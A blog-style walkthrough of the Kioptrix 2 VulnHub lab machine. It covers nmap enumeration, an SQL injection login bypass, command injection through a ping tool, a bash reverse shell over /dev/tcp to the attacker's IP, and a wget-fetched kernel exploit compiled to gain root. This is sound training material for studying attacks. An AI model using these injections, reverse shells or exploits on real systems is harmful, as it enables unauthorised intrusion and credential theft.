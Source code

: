 ```yaml
---
title:  "Kioptrix 2 Walkthrough"
header: "Kioptrix 2 Walkthrough"
categories: 
  - walkthroughs
tags:
  - vulnhub
---
```


This is the updated image (as the previous option fixed a few bugs) but from my understanding it roughly works the same for both. This is certainly a beginner machine and shouldn't require too much investigation or time to complete. The key is to have an understanding of how SQL injections work and basic privilege escalation enumeration practices.  

# Host Enumeration  
***

I started by performing an nmap scan to see what open ports and services were present  

`nmap -T4 -A -v <IP>`  

# SQL Injection  
***

There were several ports open (22,80,443,3306,111,631). I started off by navigating to website to see what was present. Immediately, I was presented with a login screen. Went through a few basic SQL injection authentication bypass one-liners and `'or 1 = 1 - -` worked.  
 
![Login Screen](/assets/images/kio2login.jpg)  
 
# Breach  
***
 
Once logged in, you are presented with an app that pings a machine on the network. I tested this by placing my attacking machine IP address in and viewed the results.  

![Ping Tool](/assets/images/kio2ping.jpg)  
 
Next I tried checking to see if I could run additional commands by appending `;whoami` which resulted in the command being executed and returning the value “apache”  

![Ping tool with username](/assets/images/kio2ping2.jpg)  

Since I had command execution on the machine, I chose a bash reverse shell from [here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and modified it for my attacking IP address. The command looked like this `<IP>;bash -i >& /dev/tcp/<IP>/8080 0>&1`.  

![Ping tool with rev shell](/assets/images/kio2pingshell.jpg)  
 
Before executing in the browser, I set up a listener on my attacking box with `nc -nvlp 8080`. Once that was set up, I executed the command and was presented with a shell as the apache user.  

![Reverse Shell](/assets/images/kio2revshell.jpg)  
 
> I used python to obtain a TTY shell but it's not required. You can do this with `python -c 'import pty; pty.spawn("/bin/sh")'`  

# Privilege Escalation  
***

Checked the kernel version by `cat /proc/version` and noticed it was Linux version 2.6.9-55.EL  

![Kernel Version](/assets/images/kio2kernel.jpg)  
 
There’s a well-known exploit for privilege escalation based on this version located [here]( https://www.exploit-db.com/exploits/9542/). I downloaded the exploit to my attacking machine, started apache by executing `service apache2 start`, and placed the exploit in the /var/www/html/ folder. On the target machine, I navigated to the tmp directory by `cd /tmp` and used wget to download the file `wget http://<IP>/exploit.c`. I used gcc to compile the code with `gcc exploit.c` and ran the exploit making me root by `a.out`.  

![Root](/assets/images/kio2root.jpg)   

There are some things you can loot off this machine such as the SQL creds (/var/www/html/index.php) and a few others. It’s interesting to look at the code and figure out why the SQL injection was possible (unsanitized input).  



We can go by the assumption that the backend SQL code looks similar to

'''SQL
SELECT * FROM ACCOUNTS WHERE USERNAME='admin' AND PASSWORD='password'
'''  

So by placing " ' or 1=1 # " in the username field we can in turn create the below query which will allow access as an authenticated user

'''SQL
SELECT * FROM ACCOUNTS WHERE USERNAME=' or 1=1 #' AND PASSWORD='password'
'''  
